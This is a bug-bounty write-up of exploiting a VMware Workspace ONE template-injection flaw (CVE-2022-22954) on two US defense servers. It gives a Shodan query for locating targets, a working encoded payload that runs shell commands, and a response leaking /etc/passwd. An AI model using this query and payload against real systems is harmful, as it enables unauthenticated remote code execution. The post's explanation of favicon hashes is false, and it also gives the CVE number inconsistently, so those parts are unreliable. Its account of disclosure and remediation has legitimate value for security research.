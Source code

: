 ```yaml
---
title: "Story of How I was able to find two RCEs in US dept of defense assets"
AuthorId: "3"
Date: "2022-05-23"
tags:
  - bugbounty, rce
---
```


Hello people, Here is an interesting writeup about the Server-side template injection which can be escalated to Remote code execution via **uuid** parameter in VMware workspace One and identity manager belongs to US dept of defense. 

This Vulnerability has been legally reported to **VMware** by **Steven Seeley** and the advisory has assigned **CVE-2022-22954**

### What’s the Server-side Template Injection Vulnerability ?

Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side. This vulnerability occurs when invalid user input is embedded into the template engine which can generally lead to remote code execution (RCE).

### CVE-2022-22954 Explained

This vulnerability allows remote attackers to execute arbitrary code on affected installations of VMware Workspace ONE Access. Authentication is not required to exploit this vulnerability. The specific flaw exists within the customError.ftl template.

The issue results from the usage of unsafe freemarker syntax, specifically a call to eval on untrusted input. An attacker can leverage this vulnerability to execute code in the context of the horizon user.

### How I Found this Vulnerability ?

On 11th April 2022 , Once my day job is done I have habit of going through twitter it’s just kind of Habit like every people does . While going through the twitter , I found Sherlock Secure Aka Udhaya Prakash where he released the proof of concept and details about the advisory **CVE-2022-22954** through his GitHub page 

[https://github.com/sherlocksecurity/VMware-CVE-2022-22954](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)

So, We got everything we want like from **favicon hash to Proof of concept to exploit this vulnerability.** 

### You can ask what’s that Favicon hash value ?

A favicon can easily be accesses by taking the favicon.ico string on a website domain name. Take the BBC, for instance. Extract the domain name, so [BBC.co.uk](http://bbc.co.uk/), place the favicon.ico icon at the end of the domain name, so that you will have [bbc.co.uk/favicon.ico](http://bbc.co.uk/favicon.ico). Now, with this URL, you can place this into Google via an image engine to collect the relevant data.

This might appear to be an efficient trick. But this technique is a vulnerability issue that can be exploited by bad actors and hackers.

Attackers can hack into the favicon hash to redirect the path of a user. This way, a user may be clicking on the favicon with the intent of going to a specific site but may, in actuality, be directed to a bogus site abundant with malware. Once on this bogus site, the user may inadvertently download malicious code via phishing links, provide personal data/passwords/banks details, and more.

Let’s get into the topic, Once we got details about the vulnerability and POC to exploit 

- Now on **shodan** , I used the specific search query

**Shodan Query:**

```bash
http.favicon.hash:-1250474341
```

While going through the shodan result, I found that two servers belongs to **US Dept of Defense** vulnerable to **CVE-2022-22952** 

[![dod-shodan.png](https://i.postimg.cc/hj6g71q2/dod-shodan.png)](https://postimg.cc/ygm2M9xR)

### How I exploited this Vulnerability ?

- Open the Vulnerable server or the site that we got from the shodan result and Intercepted the request in Burpsuite

**Request:**

```bash
GET / HTTP/1.1
Host: █████████
Cookie: LOGIN_XSRF=NSlYKinVNwgOtuT; JSESSIONID=A86B60C5FD0B58346764D1FB01DAF155
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

- Append the Following endpoint **/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d**

**Payload Used:**

```bash
deviceUdid=${"freemarker.template.utility.Execute"?new()("bash -c {eval,$({echo,aWQ7dW5hbWUgLWE=}|{base64,-d})}")}
```

**Payload Explained**

- From the above payload , It executes a **id** command where we had encoded the value as base64
- Secondly , the response is quite interesting where we got vulnerability got triggered with the status code as 400
- Finally , Which logs several messages (with payload) and two call stacks to /opt/vmware/horizon/workspace/logs/greenbox_web.log. Exception is com.vmware.endusercatalog.auth.InvalidAuthContextException.
- Ironically makes the vulnerability as a PreAuth

**Response:**

```bash
HTTP/1.1 400 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Set-Cookie: EUC_XSRF_TOKEN=6386e149-ff55-4a34-b474-30e6c0c62299; Path=/catalog-portal; Secure
Cache-Control: no-cache,private
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000 ; includeSubDomains
X-Frame-Options: SAMEORIGIN
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
Date: Mon, 11 Apr 2022 15:03:40 GMT
Connection: close
Content-Length: 3576

<!DOCTYPE HTML>
<html xmlns="http://www.w3.org/1999/html">
<head>
    <title>Error Page</title>
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1"/>
    <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
    <style>
        body {
            background: #465361;
        }

        .error-container {
            position: fixed;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            -ms-transform: translate(-50%, -50%);
            text-align: center;
            width: 25%;
            background-color: #fff;
            padding: 20px;
            box-shadow: 0 3px 2px -2px rgba(0, 0, .5, 0.35);
            border-radius: 4px;
        }

        .error-img-container svg {
            width: 40px;
        }

        .error-text-heading {
            font-weight: bold;
            padding-top: 5px;
            padding-bottom: 10px;
        }

        .error-text-container a {
            text-decoration: none;
        }
    </style>
</head>

<body>
<div class="error-container">
    <div class="error-img-container">
        <svg id="icon-warning-big" xmlns="http://www.w3.org/2000/svg" width="32" height="32" viewBox="0 0 32 32">
            <path d="M28.48,24.65,17.64,5.88a1.46,1.46,0,0,0-1.28-.74h0a1.46,1.46,0,0,0-1.28.74L4.25,24.64a1.48,1.48,0,0,0,1.28,2.22H27.2a1.48,1.48,0,0,0,1.28-2.21Zm-1.07.86a.24.24,0,0,1-.21.12H5.53a.24.24,0,0,1-.21-.37L16.15,6.49a.24.24,0,0,1,.21-.12h0a.24.24,0,0,1,.21.12L27.41,25.26A.23.23,0,0,1,27.41,25.51Z"
                  fill="#991700" stroke-width="0"/>
            <circle cx="16.36" cy="13.53" r="0.92" fill="#f38b00" stroke-width="0"/>
            <path d="M16.36,16.43a.62.62,0,0,0-.62.62v5.55a.62.62,0,0,0,1.23,0V17A.62.62,0,0,0,16.36,16.43Z"
                  fill="#991700" stroke-width="0"/>
        </svg>
    </div>
    <div class="error-text-heading">Request Failed</div>
    <div class="error-text-container">
        <p>Please contact your IT Administrator.</p>
        <a href="/catalog-portal/ui/logout?error=&deviceUdid=$%7B%22freemarker.template.utility.Execute%22?new()(%22cat%20/etc/passwd%22)%7D">Sign Out</a>
    </div>
</div>
</body>
<script>
    if (console && console.log) {
        console.log("auth.context.invalid");
        console.log("Authorization context is not valid. Login request  received with tenant code: ███████, device id: root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/dev/null████████
    }
</script>
</html>
```

- As you can see , In the case I have encoded **cat+/etc/passwd** as a base64 and replaced it inside the above payload which I had already mentioned and the response got the contents of **/etc/passwd** with status code of 400

### Conclusion

The Vulnerability has been reported and got resolved 

### Hackerone Disclosed Reports:

- [https://hackerone.com/reports/1537543](https://hackerone.com/reports/1537543)
- [https://hackerone.com/reports/1537694](https://hackerone.com/reports/1537694)

Thanks for Reading my Writeup I hope you guys love it :-)

[![giphy.gif](https://i.postimg.cc/63mjWHNp/giphy.gif)](https://postimg.cc/R6wQGLFk)
